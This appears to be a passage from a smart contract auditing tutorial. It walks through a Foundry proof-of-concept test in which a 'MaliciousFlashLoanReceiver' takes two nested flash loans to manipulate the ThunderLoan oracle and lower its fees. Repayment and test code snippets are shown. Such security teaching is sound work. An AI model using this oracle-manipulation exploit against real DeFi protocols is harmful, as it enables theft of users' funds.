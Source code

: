 
Without addressing repayment yet, but calling `flashloan` a second time, we would expect `attacked` to be true, and thus our conditional should fail. In the else block of this statement, we can now acquire feeTwo and then repay the flash loan.

All that's left is adding the repayment logic to our executeOperation function. We can call the repay function from thunderLoan to achieve this in both branches of our conditional check.

```js
IERC20(token).approve(address(thunderLoan), amount + fee);
thunderLoan.repay(IERC20(token), amount + fee);
```

Here's what our attack contract should look like now:

<details><summary> MaliciousFlashLoanReceiver</summary></details>

---

### Back to our Test

Now that we have our `Malicious Receiver` contract we can deploy one of these in our `testOracleManipulation` test.

```js
// 4. Execute 2 Flash Loans
uint256 amountToBorrow = 50e18;
MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(
    address(tswapPool), address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA))
);
```

Now we just need to finally execute our `flashloan` call! I'm going to add our console logs and assert statement at this stage as well. We expect the `attackFee` to be less than the `normalFeeCost`.

```js
vm.startPrank(user);
tokenA.mint(address(flr), 50e18);
thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, ""); // the executeOperation function of flr will
    // actually call flashloan a second time.
vm.stopPrank();

uint256 attackFee = flr.feeOne() + flr.feeTwo();
console2.log("Attack Fee is:", attackFee);
assert(attackFee < normalFeeCost);
```

Alright, we're ready to run this test - but ironically, after all this work, I'm going to tell you this isn't going to work. 😅

The whole test for reference:

<details><summary>testOracleManipulation</summary></details>

---

Let's run our test command and you'll see why.
